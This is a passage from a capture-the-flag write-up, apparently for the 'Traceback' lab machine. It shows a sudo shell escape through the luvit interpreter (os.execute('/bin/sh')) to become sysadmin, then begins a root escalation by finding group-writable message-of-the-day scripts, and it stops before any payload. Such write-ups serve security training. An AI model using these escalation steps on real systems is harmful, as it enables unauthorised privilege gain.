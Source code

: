 ```bash
webadmin@traceback:~$ sudo -u sysadmin /home/sysadmin/luvit -e 'os.execute("/bin/sh")'
$ id
id
uid=1001(sysadmin) gid=1001(sysadmin) groups=1001(sysadmin)
$ whoami
whoami
sysadmin
```

and we got user

```bash
$ cd
cd
$ ls
ls
luvit  pspy64  sysadmin_ssh.pub  user.txt
$ cat user.txt
cat user.txt
6bb2*********************302fec
```

## sysadmin -> root

While Logging In Via `SSH` I Found Some `Comments`, It’s Called Message Of The Day In Linux. It’s Located In `00-header` File Under `/etc/update-motd.d/` Directory.

```bash
sysadmin@traceback:/etc/update-motd.d$ ls -lah
total 32K
drwxr-xr-x  2 root sysadmin 4.0K Aug 27  2019 .
drwxr-xr-x 80 root root     4.0K Mar 16 03:55 ..
-rwxrwxr-x  1 root sysadmin  981 Jul  7 10:23 00-header
-rwxrwxr-x  1 root sysadmin  982 Jul  7 10:23 10-help-text
-rwxrwxr-x  1 root sysadmin 4.2K Jul  7 10:23 50-motd-news
-rwxrwxr-x  1 root sysadmin  604 Jul  7 10:23 80-esm
-rwxrwxr-x  1 root sysadmin  299 Jul  7 10:23 91-release-upgrade
```

00-header contain the meesage that is displayed on login via ssh

```bash
sysadmin@traceback:/etc/update-motd.d$ cat 00-header 
#!/bin/sh
#
#    00-header - create the header of the MOTD
#    Copyright (C) 2009-2010 Canonical Ltd.
#
#    Authors: Dustin Kirkland <kirkland@canonical.com>
#
#    This program is free software; you can redistribute it and/or modify
#    it under the terms of the GNU General Public License as published by
#    the Free Software Foundation; either version 2 of the License, or
#    (at your option) any later version.
#
#    This program is distributed in the hope that it will be useful,
#    but WITHOUT ANY WARRANTY; without even the implied warranty of
#    MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
#    GNU General Public License for more details.
#
#    You should have received a copy of the GNU General Public License along
#    with this program; if not, write to the Free Software Foundation, Inc.,
#    51 Franklin Street, Fifth Floor, Boston, MA 02110-1301 USA.

[ -r /etc/lsb-release ] && . /etc/lsb-release

```